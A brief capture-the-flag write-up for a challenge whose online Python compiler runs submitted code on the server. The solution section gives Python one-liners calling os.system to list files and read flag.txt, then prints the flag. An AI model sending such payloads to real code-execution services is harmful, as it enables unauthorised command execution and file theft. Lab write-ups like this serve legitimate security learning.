


"Remote code execution as a service.". Reminded me of my freshman year's moodle exploitation :lol:.

<!--more-->

## The statement

In this challenge, you have access to a simple online compiler that executes Python code. The code you submit is run on the server, and your goal is to exploit this vulnerability to retrieve the secret flag

## Solution

```py
__import__("os").system("ls")
```



```py
__import__("os").system("cat flag.txt")
```



### Flag: `r00t@locahost{mini_compiler_pwn}`


